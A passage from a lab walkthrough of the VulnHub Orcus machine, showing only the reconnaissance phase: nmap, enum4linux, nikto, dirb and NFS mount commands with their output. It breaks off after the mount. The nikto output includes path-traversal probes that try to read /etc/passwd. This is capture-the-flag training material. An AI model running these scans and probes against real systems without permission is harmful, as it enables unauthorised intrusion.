



Hi All,

Here is my walkthrough for [Orcus](https://www.vulnhub.com/entry/hackfest2016-orcus,182/).

# hackfest2016: Orcus

## Goals
*Taken from the website*:
This machine is intended to take a lot of enumeration and understanding of Linux system.

There are 4 flags on this machine 1. Get a shell 2. Get root access 3. There is a post exploitation flag on the box 4. There is something on this box that is different from the others from this series (Quaoar and Sedna) find why its different.

As I didn't do the other VMs I won't know what's different so I will only search for 3 flags.

## Setup
```bash
attacker: 192.168.56.1
victim  : 192.168.56.102
```

## Initial recon / first contact
As usual I started with a nmap scan.
```bash
nmap -Pn -n -p- -T4 -v6 192.168.56.102

Starting Nmap 7.40SVN ( https://nmap.org ) at 2017-03-23 15:55 GMT
Initiating Connect Scan at 15:55
Scanning 192.168.56.102 [65535 ports]
Discovered open port 993/tcp on 192.168.56.102
Discovered open port 53/tcp on 192.168.56.102
Discovered open port 80/tcp on 192.168.56.102
Discovered open port 110/tcp on 192.168.56.102
Discovered open port 143/tcp on 192.168.56.102
Discovered open port 995/tcp on 192.168.56.102
Discovered open port 22/tcp on 192.168.56.102
Discovered open port 445/tcp on 192.168.56.102
Discovered open port 111/tcp on 192.168.56.102
Discovered open port 139/tcp on 192.168.56.102
Discovered open port 443/tcp on 192.168.56.102
Discovered open port 36312/tcp on 192.168.56.102
Discovered open port 41599/tcp on 192.168.56.102
Discovered open port 57338/tcp on 192.168.56.102
Discovered open port 50204/tcp on 192.168.56.102
Discovered open port 2049/tcp on 192.168.56.102
Completed Connect Scan at 15:55, 1.20s elapsed (65535 total ports)
Nmap scan report for 192.168.56.102
Host is up, received user-set (0.0038s latency).
Scanned at 2017-03-23 15:55:55 GMT for 1s
Not shown: 65519 closed ports
Reason: 65519 conn-refused
PORT      STATE SERVICE      REASON
22/tcp    open  ssh          syn-ack
53/tcp    open  domain       syn-ack
80/tcp    open  http         syn-ack
110/tcp   open  pop3         syn-ack
111/tcp   open  rpcbind      syn-ack
139/tcp   open  netbios-ssn  syn-ack
143/tcp   open  imap         syn-ack
443/tcp   open  https        syn-ack
445/tcp   open  microsoft-ds syn-ack
993/tcp   open  imaps        syn-ack
995/tcp   open  pop3s        syn-ack
2049/tcp  open  nfs          syn-ack
36312/tcp open  unknown      syn-ack
41599/tcp open  unknown      syn-ack
50204/tcp open  unknown      syn-ack
57338/tcp open  unknown      syn-ack

Read data files from: /usr/local/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.27 seconds
```
Quite a lot op open ports, where to start, where to start. Lets keep on gathering info, lets run enum4linux as I see port 445.
```bash
enum4linux 192.168.56.102
enum4linux.pl
WARNING: polenum.py is not in your path.  Check that package is installed and your PATH is sane.
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Thu Mar 23 15:58:10 2017

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 192.168.56.102
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ====================================================== 
|    Enumerating Workgroup/Domain on 192.168.56.102    |
 ====================================================== 
[+] Got domain/workgroup name: WORKGROUP

 ============================================== 
|    Nbtstat Information for 192.168.56.102    |
 ============================================== 
Looking up status of 192.168.56.102
	ORCUS           <00> -         B <ACTIVE>  Workstation Service
	ORCUS           <03> -         B <ACTIVE>  Messenger Service
	ORCUS           <20> -         B <ACTIVE>  File Server Service
	..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser
	WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
	WORKGROUP       <1d> -         B <ACTIVE>  Master Browser
	WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

	MAC Address = 00-00-00-00-00-00

 ======================================= 
|    Session Check on 192.168.56.102    |
 ======================================= 
[+] Server 192.168.56.102 allows sessions using username '', password ''

 ============================================= 
|    Getting domain SID for 192.168.56.102    |
 ============================================= 
mkdir failed on directory /var/run/samba/msg.lock: Permission denied
Domain Name: WORKGROUP
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup

 ======================================== 
|    OS information on 192.168.56.102    |
 ======================================== 
[+] Got OS info for 192.168.56.102 from smbclient: Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.11-Ubuntu]
[+] Got OS info for 192.168.56.102 from srvinfo:
mkdir failed on directory /var/run/samba/msg.lock: Permission denied
	ORCUS          Wk Sv PrQ Unx NT SNT Orcus server (Samba, Ubuntu)
	platform_id     :	500
	os version      :	6.1
	server type     :	0x809a03

 =============================== 
|    Users on 192.168.56.102    |
 =============================== 
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: viper	Name: viper	Desc: 
index: 0x2 RID: 0x3e9 acb: 0x00000010 Account: root	Name: root	Desc: 

user:[viper] rid:[0x3e8]
user:[root] rid:[0x3e9]

 =========================================== 
|    Share Enumeration on 192.168.56.102    |
 =========================================== 
WARNING: The "syslog" option is deprecated
Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.11-Ubuntu]
Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.11-Ubuntu]

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	IPC$            IPC       IPC Service (Orcus server (Samba, Ubuntu))

	Server               Comment
	---------            -------
	ORCUS                Orcus server (Samba, Ubuntu)

	Workgroup            Master
	---------            -------
	WORKGROUP            ORCUS

[+] Attempting to map shares on 192.168.56.102
//192.168.56.102/print$	Mapping: DENIED, Listing: N/A
//192.168.56.102/IPC$	Mapping: OK	Listing: DENIED

 ====================================================== 
|    Password Policy Information for 192.168.56.102    |
 ====================================================== 
[E] Dependent program "polenum.py" not present.  Skipping this check.  Download polenum from http://labs.portcullis.co.uk/application/polenum/


 ================================ 
|    Groups on 192.168.56.102    |
 ================================ 

[+] Getting builtin groups:

[+] Getting builtin group memberships:

[+] Getting local groups:

[+] Getting local group memberships:

[+] Getting domain groups:

[+] Getting domain group memberships:

 ========================================================================= 
|    Users on 192.168.56.102 via RID cycling (RIDS: 500-550,1000-1050)    |
 ========================================================================= 
[I] Found new SID: S-1-5-21-2160833340-863236869-394548843
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-5-32 and logon username '', password ''
S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1001 Unix User\kippo (Local User)
[+] Enumerating users using SID S-1-5-21-2160833340-863236869-394548843 and logon username '', password ''
S-1-5-21-2160833340-863236869-394548843-501 ORCUS\nobody (Local User)
S-1-5-21-2160833340-863236869-394548843-513 ORCUS\None (Domain Group)
S-1-5-21-2160833340-863236869-394548843-1000 ORCUS\viper (Local User)
S-1-5-21-2160833340-863236869-394548843-1001 ORCUS\root (Local User)

 =============================================== 
|    Getting printer info for 192.168.56.102    |
 =============================================== 
mkdir failed on directory /var/run/samba/msg.lock: Permission denied
No printers returned.


enum4linux complete on Thu Mar 23 15:58:39 2017
```
I removed all of the unknowns to keep the output a bit more *handy*. 
So, what else. There is a webserver running on port 80 and 443, lets browse to them and see what's there. Ah, port 80 has a nice [welcome](../images/orcus/welcome.png) page, however port 443 has a problem. Is it plain text on port 443 then.
```bash
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.1
Protocol mismatch.
```
Aparently so.

Good, let's use nikto to see what else for port 80.
```bash
nikto.pl -host 192.168.56.102
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.56.102
+ Target Hostname:    192.168.56.102
+ Target Port:        80
+ Start Time:         2017-03-23 16:03:09 (GMT0)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x65 0x53ff6086e56aa 
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie PHPSESSID created without the httponly flag
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Entry '/exponent.js.php' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/exponent.js2.php' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/exponent.php' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/exponent_bootstrap.php' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/exponent_constants.php' in robots.txt returned a non-forbidden or redirect HTTP code (500)
+ Entry '/exponent_php_setup.php' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/exponent_version.php' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/getswversion.php' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/login.php' in robots.txt returned a non-forbidden or redirect HTTP code (302)
+ Entry '/overrides.php' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/selector.php' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/site_rss.php' in robots.txt returned a non-forbidden or redirect HTTP code (302)
+ Entry '/source_selector.php' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/thumb.php' in robots.txt returned a non-forbidden or redirect HTTP code (302)
+ Entry '/ABOUT.md' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/CHANGELOG.md' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/CREDITS.md' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/INSTALLATION.md' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/README.md' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/RELEASE.md' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/TODO.md' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ OSVDB-3268: /files/: Directory indexing found.
+ Entry '/files/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ OSVDB-3268: /tmp/: Directory indexing found.
+ Entry '/tmp/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 30 entries which should be manually viewed.
+ Multiple index files found: /index.php, /index.html
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-2870: /index.php?download=/etc/passwd: Snif 1.2.4 allows any file to be retrieved from the web server.
+ OSVDB-59085: /index.php?|=../../../../../../../../../etc/passwd: Portix-PHP Portal allows retrieval of arbitrary files via the '..' type filtering problem.
+ /index.php?page=../../../../../../../../../../etc/passwd: The PHP-Nuke Rocket add-in is vulnerable to file traversal, allowing an attacker to view any file on the host. (probably Rocket, but could be any index.php)
+ OSVDB-59085: /index.php?l=forum/view.php&topic=../../../../../../../../../etc/passwd: Portix-PHP Portal allows retrieval of arbitrary files via the '..' type filtering problem.
+ OSVDB-8193: /index.php?module=ew_filemanager&type=admin&func=manager&pathext=../../../etc/&view=passwd: EW FileManager for PostNuke allows arbitrary file retrieval.
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3092: /files/: This might be interesting...
+ Uncommon header 'x-ob_mode' found, with contents: 1
+ OSVDB-3092: /tmp/: This might be interesting...
+ OSVDB-3092: : This might be interesting... possibly a system shell found.
+ OSVDB-3093: /admin/index.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3092: /xmlrpc.php: xmlrpc.php was found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /test.php: This might be interesting...
+ /phpmyadmin/: phpMyAdmin directory found
+ 9338 requests: 0 error(s) and 48 item(s) reported on remote host
+ End Time:           2017-03-23 16:03:25 (GMT0) (16 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested


      *********************************************************************
      Portions of the server's headers (Apache/2.4.18) are not in
      the Nikto database or are newer than the known string. Would you like
      to submit this information (*no server specific data*) to CIRT.net
      for a Nikto update (or you may email to sullo@cirt.net) (y/n)? n

```
Spitting out a robots.txt file, let's look at it all
```bash
User-agent: *
Crawl-delay: 5
# @@@@@@   @@@@@@@    @@@@@@@  @@@  @@@   @@@@@@   
#@@@@@@@@  @@@@@@@@  @@@@@@@@  @@@  @@@  @@@@@@@   
#@@!  @@@  @@!  @@@  !@@       @@!  @@@  !@@       
#!@!  @!@  !@!  @!@  !@!       !@!  @!@  !@!       
#@!@  !@!  @!@!!@!   !@!       @!@  !@!  !!@@!!    
#!@!  !!!  !!@!@!    !!!       !@!  !!!   !!@!!!   
#!!:  !!!  !!: :!!   :!!       !!:  !!!       !:!  
#:!:  !:!  :!:  !:!  :!:       :!:  !:!      !:!   
#::::: ::  ::   :::   ::: :::  ::::: ::  :::: ::   
# : :  :    :   : :   :: :: :   : :  :   :: : :    
Disallow: /exponent.js.php
Disallow: /exponent.js2.php
Disallow: /exponent.php
Disallow: /exponent_bootstrap.php
Disallow: /exponent_constants.php
Disallow: /exponent_php_setup.php
Disallow: /exponent_version.php
Disallow: /getswversion.php
Disallow: /login.php
Disallow: /overrides.php
Disallow: /popup.php
Disallow: /selector.php
Disallow: /site_rss.php
Disallow: /source_selector.php
Disallow: /thumb.php
Disallow: /ABOUT.md
Disallow: /CHANGELOG.md
Disallow: /CREDITS.md
Disallow: /INSTALLATION.md
Disallow: /LICENSE
Disallow: /README.md
Disallow: /RELEASE.md
Disallow: /TODO.md
Disallow: /cgi-bin/
Disallow: /cart/
Disallow: /login/
Disallow: /users/
Disallow: /files/
Disallow: /tmp/
Disallow: /search/

# Sitemap: http://www.mysite.com/sitemap.xml
```

Cool, any other folders that I don't know about yet??
```bash
dirb http://192.168.56.102 wordlists/big.txt
dirb

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Mar 23 16:04:43 2017
URL_BASE: http://192.168.56.102/
WORDLIST_FILES: wordlists/big.txt

-----------------

GENERATED WORDS: 20458                                                         

---- Scanning URL: http://192.168.56.102/ ----
==> DIRECTORY: http://192.168.56.102/FCKeditor/                                                                                                                                                              
+ http://192.168.56.102/LICENSE (CODE:200|SIZE:15437)                                                                                                                                                        
==> DIRECTORY: http://192.168.56.102/admin/                                                                                                                                                                  
==> DIRECTORY: http://192.168.56.102/backups/                                                                                                                                                                
==> DIRECTORY: http://192.168.56.102/cron/                                                                                                                                                                   
==> DIRECTORY: http://192.168.56.102/external/                                                                                                                                                               
==> DIRECTORY: http://192.168.56.102/files/                                                                                                                                                                  
==> DIRECTORY: http://192.168.56.102/framework/                                                                                                                                                              
==> DIRECTORY: http://192.168.56.102/install/                                                                                                                                                                
==> DIRECTORY: http://192.168.56.102/javascript/                                                                                                                                                             
==> DIRECTORY: http://192.168.56.102/phpmyadmin/                                                                                                                                                             
+ http://192.168.56.102/robots.txt (CODE:200|SIZE:1347)                                                                                                                                                      
+ http://192.168.56.102/server-status (CODE:403|SIZE:302)                                                                                                                                                    
==> DIRECTORY: http://192.168.56.102/themes/                                                                                                                                                                 
==> DIRECTORY: http://192.168.56.102/tmp/                                                                                                                                                                    
+ http://192.168.56.102/webalizer (CODE:200|SIZE:0)                                                                                                                                                          
==> DIRECTORY: http://192.168.56.102/zenphoto/                                                                                                                                                               
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/FCKeditor/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/admin/ ----
==> DIRECTORY: http://192.168.56.102/admin/gallery/                                                                                                                                                          
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/backups/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/cron/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/external/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/files/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/framework/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/install/ ----
==> DIRECTORY: http://192.168.56.102/install/changes/                                                                                                                                                        
==> DIRECTORY: http://192.168.56.102/install/files/                                                                                                                                                          
==> DIRECTORY: http://192.168.56.102/install/images/                                                                                                                                                         
==> DIRECTORY: http://192.168.56.102/install/include/                                                                                                                                                        
==> DIRECTORY: http://192.168.56.102/install/pages/                                                                                                                                                          
==> DIRECTORY: http://192.168.56.102/install/popups/                                                                                                                                                         
==> DIRECTORY: http://192.168.56.102/install/samples/                                                                                                                                                        
==> DIRECTORY: http://192.168.56.102/install/upgrades/                                                                                                                                                       
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/javascript/ ----
==> DIRECTORY: http://192.168.56.102/javascript/jquery/                                                                                                                                                      
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/phpmyadmin/ ----
<SNIP                                                                                                                                                 
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/themes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/tmp/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/zenphoto/ ----
+ http://192.168.56.102/zenphoto/LICENSE (CODE:200|SIZE:18205)                                                                                                                                               
==> DIRECTORY: http://192.168.56.102/zenphoto/albums/                                                                                                                                                        
==> DIRECTORY: http://192.168.56.102/zenphoto/cache/                                                                                                                                                         
==> DIRECTORY: http://192.168.56.102/zenphoto/cache_html/                                                                                                                                                    
==> DIRECTORY: http://192.168.56.102/zenphoto/plugins/                                                                                                                                                       
+ http://192.168.56.102/zenphoto/robots.txt (CODE:200|SIZE:471)                                                                                                                                              
==> DIRECTORY: http://192.168.56.102/zenphoto/themes/                                                                                                                                                        
==> DIRECTORY: http://192.168.56.102/zenphoto/uploaded/                                                                                                                                                      
==> DIRECTORY: http://192.168.56.102/zenphoto/zp-core/                                                                                                                                                       
==> DIRECTORY: http://192.168.56.102/zenphoto/zp-data/                                                                                                                                                       
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/admin/gallery/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/install/changes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/install/files/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/install/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/install/include/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/install/pages/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/install/popups/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/install/samples/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/install/upgrades/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/javascript/jquery/ ----
+ http://192.168.56.102/javascript/jquery/jquery (CODE:200|SIZE:284394)                                                                                                                                      
                                                                                                                                                                                                             
<SNIP>                                                                                                                                        
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/zenphoto/albums/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/zenphoto/cache/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/zenphoto/cache_html/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/zenphoto/plugins/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/zenphoto/themes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/zenphoto/uploaded/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/zenphoto/zp-core/ ----
+ http://192.168.56.102/zenphoto/zp-core/dataaccess (CODE:200|SIZE:187)                                                                                                                                      
==> DIRECTORY: http://192.168.56.102/zenphoto/zp-core/exif/                                                                                                                                                  
+ http://192.168.56.102/zenphoto/zp-core/htaccess (CODE:200|SIZE:546)                                                                                                                                        
==> DIRECTORY: http://192.168.56.102/zenphoto/zp-core/images/                                                                                                                                                
==> DIRECTORY: http://192.168.56.102/zenphoto/zp-core/js/                                                                                                                                                    
==> DIRECTORY: http://192.168.56.102/zenphoto/zp-core/locale/                                                                                                                                                
==> DIRECTORY: http://192.168.56.102/zenphoto/zp-core/setup/                                                                                                                                                 
==> DIRECTORY: http://192.168.56.102/zenphoto/zp-core/utilities/                                                                                                                                             
==> DIRECTORY: http://192.168.56.102/zenphoto/zp-core/watermarks/                                                                                                                                            
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/zenphoto/zp-data/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
<SNIP>                                                                                                            
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/zenphoto/zp-core/exif/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/zenphoto/zp-core/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/zenphoto/zp-core/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/zenphoto/zp-core/locale/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/zenphoto/zp-core/setup/ ----
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/zenphoto/zp-core/utilities/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
---- Entering directory: http://192.168.56.102/zenphoto/zp-core/watermarks/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                             
<SNIP>

-----------------
END_TIME: Thu Mar 23 16:10:19 2017
DOWNLOADED: 1575266 - FOUND: 12
```
Let's look at the sites we've found and download everything that was found with nikto and Dirbuster. Perhaps that will help finding an entrance.
``bash
wget -e robots=off http://192.168.56.104/<everything mentioned in nikto & dirb>
```
$ showmount -e 192.168.56.102
Export list for 192.168.56.102:
/tmp *
$ mkdir nfs
$ sudo mount 192.168.56.102:/tmp nfs
$ ls -als nfs
total 36
